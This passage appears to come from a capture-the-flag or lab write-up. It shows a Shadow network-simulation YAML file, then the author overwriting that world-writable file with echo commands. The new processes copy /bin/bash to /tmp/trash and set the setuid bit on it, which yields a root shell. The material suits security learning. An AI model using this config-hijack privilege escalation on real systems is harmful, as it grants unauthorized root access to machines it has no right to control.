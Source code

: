 ```yaml
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

This seems to start a Python server on port 80 and does a `curl` command. This file was world-writable so I decided to edit the file and try to see if I can get RCE:

```vim
echo 'general:' > network-simulation.yml
echo '  # stop after 10 simulated seconds' >> network-simulation.yml
echo '  stop_time: 10s' >> network-simulation.yml
echo '  # old versions of cURL use a busy loop, so to avoid spinning in this busy' >> network-simulation.yml
echo '  # loop indefinitely, we add a system call latency to advance the simulated' >> network-simulation.yml
echo '  # time when running non-blocking system calls' >> network-simulation.yml
echo '  model_unblocked_syscall_latency: true' >> network-simulation.yml
echo '' >> network-simulation.yml
echo 'network:' >> network-simulation.yml
echo '  graph:' >> network-simulation.yml
echo '    # use a built-in network graph containing' >> network-simulation.yml
echo '    # a single vertex with a bandwidth of 1 Gbit' >> network-simulation.yml
echo '    type: 1_gbit_switch' >> network-simulation.yml
echo '' >> network-simulation.yml
echo 'hosts:' >> network-simulation.yml
echo '  # a host with the hostname 'server'' >> network-simulation.yml
echo '  server:' >> network-simulation.yml
echo '    network_node_id: 0' >> network-simulation.yml
echo '    processes:' >> network-simulation.yml
echo '    - path: /usr/bin/cp' >> network-simulation.yml
echo '      args: /bin/bash /tmp/trash' >> network-simulation.yml
echo '      start_time: 3s' >> network-simulation.yml
echo '  # three hosts with hostnames 'client1', 'client2', and 'client3'' >> network-simulation.yml
echo '  client:' >> network-simulation.yml
echo '    network_node_id: 0' >> network-simulation.yml
echo '    quantity: 3' >> network-simulation.yml
echo '    processes:' >> network-simulation.yml
echo '    - path: /usr/bin/chmod' >> network-simulation.yml
echo '      args: u+s /tmp/trash' >> network-simulation.yml
echo '      start_time: 5s' >> network-simulation.yml
```
